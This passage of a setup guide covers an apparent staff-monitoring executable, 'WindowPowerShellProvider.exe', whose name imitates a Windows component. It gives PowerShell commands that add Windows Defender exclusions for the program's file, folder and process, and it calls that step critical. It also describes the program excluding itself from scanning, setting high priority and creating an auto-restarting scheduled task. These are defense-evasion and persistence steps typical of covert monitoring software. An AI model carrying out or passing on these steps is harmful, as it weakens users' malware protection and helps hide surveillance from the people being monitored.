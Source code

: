 This stores the staff ID in:
- Registry: `HKEY_CURRENT_USER\Software\WindowSupport`
- Fallback: `%LOCALAPPDATA%\WindowSupport\config.json`

---

## Step 5: Add Windows Defender Exclusions (CRITICAL)

### Automatic (Prompts for Admin):
Run the EXE once - it will attempt to add exclusions automatically.

### Manual (Recommended):
Run PowerShell **as Administrator**:

```powershell
# Add exclusions
Add-MpPreference -ExclusionPath "$env:LOCALAPPDATA\WindowSupport\WindowPowerShellProvider.exe"
Add-MpPreference -ExclusionPath "$env:LOCALAPPDATA\WindowSupport"
Add-MpPreference -ExclusionProcess "WindowPowerShellProvider.exe"

# Verify exclusions
Get-MpPreference | Select-Object -ExpandProperty ExclusionPath
```

### Helper Batch File:
After first run, a helper script is created at:
`%LOCALAPPDATA%\WindowSupport\add_exclusions.bat`

Right-click → **Run as Administrator**

---

## Step 6: First Run

```powershell
cd "$env:LOCALAPPDATA\WindowSupport"
.\WindowPowerShellProvider.exe
```

**On first run, it will:**
1. Set process priority to HIGH
2. Create scheduled task with auto-restart
3. Attempt to add Windows Defender exclusions
4. Start monitoring

---

## Step 7: Verify Installation

### Check Scheduled Task:
```powershell
schtasks /query /tn "WindowSupportMonitor" /fo LIST /v
```
